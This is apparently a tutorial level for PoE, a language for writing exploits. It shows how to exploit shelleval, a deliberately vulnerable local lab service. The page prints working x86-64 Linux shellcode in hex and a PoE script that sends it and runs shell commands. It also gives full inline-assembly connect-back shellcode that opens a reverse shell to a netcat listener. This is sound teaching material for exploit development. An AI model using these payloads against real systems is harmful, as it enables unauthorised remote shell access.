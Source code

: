 Level 04
===

You can run PoE code against remote applications, too. In this tutorial, we are
going to exploit a remote service using PoE, assuming that you have a Linux
machine (or a VM).

First, we will run a vulnerable service, named
[`shelleval`](https://github.com/sangkilc/shelleval), which is a simple C
program that listens on a specific TCP port, and receives any arbitrary data
from the user. The received data will then be considered as code, and the
program will eventually execute the code. That is, if we send a shellcode, then
the program will just spawn a shell for us.

Prepare the program on a Linux machine, and compile it with `make`. In this
tutorial, we are going to use port 50000 to run the program.

```
$ git clone https://github.com/sangkilc/shelleval
$ cd shelleval
$ make
$ ./shelleval 50000
```

## Spawn a Shell with a Shellcode

Now that the service is running, we are going to send a simple shellcode to the
service to spawn a shell. Let's use a 79-byte shellcode for x86-64 Linux:
```
4831d24889d752524889e6b210524889e248ffc74831c0b0340f054885c075f14831f64889f0b0210f0548ffc64080fe0375f04831c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05
```

To do so, write a PoE that looks like below:
```
act exploit():
    bv shellcode = 4831d24889d752524889e6b210524889e248ffc74831c0b0340f054885c075f14831f64889f0b0210f0548ffc64080fe0375f04831c048bbd19d9691d08c97ff48f7db53545f995257545eb03b0f05hs
    write(shellcode)
    write("ls -la" . "\n") // change this command for your benefit.
    return read(-1)

submit:
    return exploit()
```

The above PoE simply sends the shellcode, and then sends a shell command `ls
-la` followed by a newline. You can change the command for your own purpose,
e.g., `cat flag.txt`, etc. To run the above PoE, you will have to use the `net`
command of `PoE.Replayer`. Specifically, run the following command. Note that
`192.168.56.1` is an IP address that the `shelleval` service is running on.

```
> poe net Level-04.poe 192.168.56.1 50000
...
ascii = {Received shell length: 79 bytes.
total 68
drwxr-xr-x  3 root root  4096 Sep 26 22:00 .
drwx------ 13 root root  4096 Sep 26 22:00 ..
drwxr-xr-x  8 root root  4096 Sep 26 22:00 .git
-rw-r--r--  1 root root 17987 Sep 26 22:00 LICENSE
-rw-r--r--  1 root root    81 Sep 26 22:00 Makefile
-rw-r--r--  1 root root    49 Sep 26 22:00 README.md
-rwxr-xr-x  1 root root  1250 Sep 26 22:00 shellcode.py
-rwxr-xr-x  1 root root 17720 Sep 26 22:00 shelleval
-rw-r--r--  1 root root  2579 Sep 26 22:00 shelleval.c
}
```

## Shellcoding with PoE

PoE also supports inline assembly, which makes shellcoding fun and easy. Suppose
we want to send a connect-back shellcode to the shelleval program. In PoE, we
can easily write it as follows.

```
act exploit():
    bv shellcode = x86-64 {{
        xor rax, rax
        xor rdi, rdi
        xor rsi, rsi
        xor rdx, rdx
        xor r8, r8
        push 0x2
        pop rdi
        push 0x1
        pop rsi
        push 0x6
        pop rdx
        push 0x29
        pop rax
        syscall
        mov r8, rax
        xor rsi, rsi
        xor r10, r10
        push r10
        mov byte ptr [rsp], 0x2
        mov word ptr [rsp+0x2], %
        mov dword ptr [rsp+0x4], %
        mov rsi, rsp
        push 0x10
        pop rdx
        push r8
        pop rdi
        push 0x2a
        pop rax
        syscall
        xor rsi, rsi
        push 0x3
        pop rsi
    loop:
        dec rsi
        push 0x21
        pop rax
        syscall
        jne loop
        xor rdi, rdi
        push rdi
        push rdi
        pop rsi
        pop rdx
        mov rdi, 0x68732f6e69622f2f
        shr rdi, 0x8
        push rdi
        push rsp
        pop rdi
        push 0x3b
        pop rax
        syscall
    }}: (itoa(le2be(0x7a69)), itoa(p2n("127.0.0.1"))) // port 31337
    write(shellcode)
    return read(-1)

submit:
    return exploit()
```

You can use a special character `%` to indicate an arbitrary string (bitvector)
value, which can be replaced by an argument given to the inline assembly block.
In the above example, there are two arguments given to the assembly block:
`itoa(le2be(0x7a69))` and `itoa(p2n("127.0.0.1"))`, which represent the target
port and ip address, respectively. Note that you can also use a label in the
assembly code.

To run this example, you should first create a netcat server with `nc -l -p
31337` in another terminal as well as the shelleval service. By running the PoE,
the netcat server will receieve a connection with a spawned shell.
